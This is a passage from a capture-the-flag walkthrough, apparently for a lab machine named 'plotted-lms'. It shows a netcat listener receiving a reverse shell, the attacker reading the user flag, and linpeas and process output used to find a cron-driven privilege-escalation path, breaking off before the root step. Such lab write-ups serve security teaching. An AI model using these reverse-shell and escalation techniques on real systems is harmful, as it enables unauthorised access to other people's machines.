 ```bash
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```

After a minute _(again)_ we received the reverse connection

```bash
╰─ nc -nlvp 1338                                                                                                                                                            
listening on [any] 1338 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.93.142] 52772
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted-lms:~$ id; whoami; pwd; cat /home/plot_admin/user.txt
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
plot_admin
/home/plot_admin
7[REDACTED]0
```
Yes! We made it! 

Now let's root this machine 😎

## Root

This part of the machine, took awhile to figure it out, too much overthinking :/

But we will make it clear and straightforward!

We used `linpeas` to scan the machine, and we found out the following:

`Linpeas` is showing us that there is an script being executed too many times in 1 minute:


```bash
[...]
╔══════════╣ Different processes executed during 1 min (interesting is low number of repetitions)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#frequent-cron-jobs
    287 /lib/systemd/systemd --user
    286 (sd-pam)
     31 /usr/bin/ssh root@127.0.0.1 . /etc/bash_completion
     31 /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
[...]
```

There's an script running `ssh` as root to the `localhost` and passing the `bash_completion` folder as argument... Strange... 

Checking the machines processes we found out the following

```bash
[...]
root        5322     597  0 10:12 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5347    5322  0 10:12 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5348    5347  0 10:12 ?        00:00:02  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5482     597  0 10:13 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5548    5482  0 10:13 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5558    5548  1 10:13 ?        00:00:02  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5633     597  0 10:14 ?        00:00:00  \_ /usr/sbin/CRON -f
```